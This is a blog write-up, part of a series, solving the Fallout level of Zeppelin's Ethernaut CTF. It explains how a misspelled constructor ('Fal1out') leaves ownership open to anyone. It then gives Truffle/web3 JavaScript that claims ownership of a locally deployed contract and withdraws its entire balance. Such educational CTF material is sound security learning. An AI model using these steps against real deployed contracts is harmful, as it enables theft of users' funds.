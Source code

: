 Title: Solving Zeppelin's Ethernaut CTF - Fallout
Date: 2018-06-01 10:00
Tags: ethereum, solidity, ctf, smart contracts
Category: Ethereum
Slug: solving-zeppelin-ethernaut-ctf-fallout
Summary: Third post of a series in which we tackle the challenges in the [Ethernaut CTF by Zeppelin](https://ethernaut.zeppelin.solutions/){:target="_blank",:rel="noopener"}. In this one, we solve the second challenge: Fallout.

## Introduction
While in the [Introduction](https://www.notonlyowner.com/ethereum/solving-zeppelin-ethernaut-ctf-intro/) of this series we setup the environment with Ganache-cli and Truffle, in the [second article](https://www.notonlyowner.com/ethereum/solving-zeppelin-ethernaut-ctf-fallback/) we walked through deploying our first smart contract, the basics of Solidity and Web3 and finally found a way to become the owners of the Fallback contract, thus passing the first challenge. Now, we will solve the second one: [Fallout](https://ethernaut.zeppelin.solutions/level/0x220beee334f1c1f8078352d88bcc4e6165b792f6).

## The Fallout contract
Take a moment to *thoroughly* look at the contract's source code and try to find what is wrong with it.

Need a hint ? Remember what we talked [about contract's constructors](https://www.notonlyowner.com/ethereum/solving-zeppelin-ethernaut-ctf-fallback#constructors).

Not quite there yet ? Observe the contract's name and the name of the *constructor*. Any difference ?

~~~solidity
contract Fallout is Ownable {
    ...
    /* constructor */
    function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    }
    ...
}
~~~

Yeap, there it is. Fallout is not the same as Fal1out, which means: **Fallout does not have a constructor**. The function that was intended to be the contract's constructor is actually a regular **public** function that can be called by anyone, since its name does not match the contract's name.

Having discovered that, all we have to do now in order to become the owners of the contract (i.e. pass the challenge) is simply call the Fal1out function.

## Solving Fallout
Just follow this simple steps:

1. Start ganache-cli
2. Deploy the Fallout contract with Truffle
3. Write and execute exploit

Since steps 1 & 2 were covered in the [previous article](https://www.notonlyowner.com/ethereum/solving-zeppelin-ethernaut-ctf-fallback#deploying-your-first-smart-contract), let's skip those here and move on to the fun stuff: exploiting the contract.

First, as you can see below, the structure of the exploit remains the same as in Fallback. We get the attacker account, an instance of the deployed vulnerable contract and check its owner.

~~~javascript
const FalloutContract = artifacts.require('Fallout')
const assert = require('assert')

async function execute(callback) {
    // Get attacker account
    let attacker = web3.eth.accounts[1]
    console.log(`Attacker address: ${attacker}`)

    // Instance vulnerable contract
    let contract = await FalloutContract.deployed()

    // Check who's the owner
    let contractOwner = await contract.owner.call()
    assert.equal(contractOwner, web3.eth.accounts[0])
    console.log(`Contract owner: ${contractOwner}`)

    //[...]

    callback()
}
module.exports = execute
~~~

Once done with that, we need to call the Fal1out function and assert the attacker has become the owner:
~~~javascript
await contract.Fal1out({
    from: attacker,
    value: web3.toWei(0.0009, 'ether')
})

// Check who's the owner now (:
contractOwner = await contract.owner.call()
assert.equal(contractOwner, attacker)
console.log(`Contract owner: ${contractOwner}`)
~~~

Excellent! As owners, we can withdraw the entire balance of the contract.
~~~javascript
// Withdraw all money
let response = await contract.collectAllocations({
    from: attacker
})
console.log(`Withdrew all allocations in transaction ${response.tx}`)
~~~

Aaand, challenge completed. That wasn't so hard, right ?

Find the entire [exploit code of the Fallout contract at my GitHub repo](https://github.com/tinchoabbate/ethernaut-ctf/blob/master/exploits/fallout.exploit.js).

If you enjoyed this challenge, stay tuned! In the [next post](https://www.notonlyowner.com/ethereum/solving-zeppelin-ethernaut-ctf-coinflip) we will dive into the problems of randomness in the Ethereum blockchain with the next challenge: [Coin Flip](https://ethernaut.zeppelin.solutions/level/0xd340de695bbc39e72df800dfde78a20d2ed94035).
